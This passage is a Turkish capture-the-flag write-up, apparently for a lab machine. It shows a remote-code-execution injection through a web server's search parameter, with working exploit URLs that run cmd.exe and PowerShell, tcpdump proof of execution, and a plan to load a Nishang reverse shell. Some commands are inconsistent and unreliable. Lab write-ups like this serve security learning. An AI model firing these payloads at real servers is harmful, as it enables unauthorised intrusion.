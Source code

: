 
Python'da, f-string içindeki `{}` (dikkat edin, URL f'' içine sarılmış) değişkenleri temsil eder, bu nedenle `{{` ve `}}` gerçek küme parantezleri yazmak için kullanılan kaçış karakterleridir. Bu durumda, bu yalnızca RCE (Remote Code Execution - Uzaktan Kod Çalıştırma) elde etmek için `/?search={.+exec|[url-encoded command].}` adresine yapılan tek bir HTTP isteğidir.

```
http://10.10.10.8/?search=%00{.+exec|C%3A%5Cwindows%5Csystem32%5Ccmd.exe%20/c%20ping%2010.10.14.10.}
```

Or URL decoded:

```
http://10.10.10.8/?search=%00{.+exec|c:\windows\system32\cmd.exe+/c+ping+-c+1+10.10.14.10.}
```


### POC

Bir kavram kanıtı olarak, kendime ping atmayı denemek için bu URL'yi hazırladım:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

Eğer çalışıyorsa, hostumda tek bir ICMP paketi görmeliyim. Tcpdump'ı başlattım ve gönderdim ama hiçbir şey yok.

Genellikle, bu mevcut ortamda sistemin ping yolunu bulamamasıyla ilgili bir sorun olabilir. Bu yüzden komuttan önce cmd /c eklemeyi denedim:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

İşe yaradı (ilginç bir şekilde dört kez):

```
sudo tcpdump -i tun0 icmp and src 10.10.10.8

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40
```

PowerShell ile de çalıştırabilirim:

```
http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.16.9.}
```


### Shell
Bu sunucunun eski olması ve kolay derecelendirmesi nedeniyle muhtemelen Defender / AMSI hakkında endişelenmem gerekmiyor, bu yüzden [Nishang](https://github.com/samratashok/nishang)'dan bir PowerShell scripti alacağım. `Invoke-PowerShellTcpOneLine.ps1` scriptini kopyalayıp yorumları keseceğim ve IP ile portu güncelleyeceğim.
